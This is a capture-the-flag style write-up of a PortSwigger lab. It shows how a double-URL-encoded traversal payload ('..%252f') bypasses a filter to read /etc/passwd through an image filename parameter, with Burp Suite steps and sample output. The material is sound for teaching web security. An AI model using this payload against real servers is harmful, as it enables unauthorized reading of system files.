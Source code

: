 # 🛡️ Lab Write-up: File Path Traversal – Traversal Sequences Stripped with Superfluous URL-decode

---

## 🧪 Lab Overview

This PortSwigger lab demonstrates a **file path traversal vulnerability** due to improper input handling in the image filename parameter.

Although the application blocks standard traversal patterns like `../`, it performs **URL-decoding after filtering**, allowing attackers to bypass protections using **double-encoded payloads**.

> 🎯 **Objective:** Retrieve the contents of the sensitive file `/etc/passwd`.

---

## 🧰 Tools Used

- 🌐 Web Browser  
- 🛠️ [Burp Suite](https://portswigger.net/burp) (Community or Pro Edition)  
- 🧪 PortSwigger Web Security Academy Lab Environment  

---

## 🧠 Understanding the Vulnerability

The application attempts to block dangerous file paths like:

- `../`  
- `%2e%2e%2f`

However, it makes a critical mistake: it **decodes the input *after* filtering**, which can reintroduce malicious path traversal sequences that had initially been hidden through **double URL encoding**.

### 🔓 The Bypass: Double Encoding

To bypass the filter:

- `/` → `%2f`  
- `%2f` → `%252f`  
- So, `../` becomes: `..%252f`  

🟢 The double-encoded sequence isn't blocked and is later decoded into a valid `../` at runtime, allowing access to restricted files.

---

## 🚀 Exploitation Steps

### 1️⃣ Access the Application

- Open the lab URL.  
- Click on a product image.  
- Note the request pattern:
GET /image?filename=product1.jpg

yaml
Copy
Edit

---

### 2️⃣ Intercept the Request via Burp Suite

- Turn **Intercept ON** in Burp.  
- Click on the image again.  
- Capture the image request:
/image?filename=product1.jpg

yaml
Copy
Edit
- **Send it to Repeater** for modification.

---

### 3️⃣ Craft and Insert the Exploit Payload

Use this **double-encoded traversal payload**:
GET /image?filename=..%252f..%252f..%252fetc/passwd

yaml
Copy
Edit

#### 📌 Explanation:
- `..%252f` → `..%2f` → `../` after decoding
- Reconstructed path: `../../../etc/passwd`

---

### 4️⃣ Send the Payload and View the Results

- Send the modified request in Repeater.  
- ✅ If successful, the response will contain:
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin ...

yaml
Copy
Edit

🎉 **Lab Solved!**
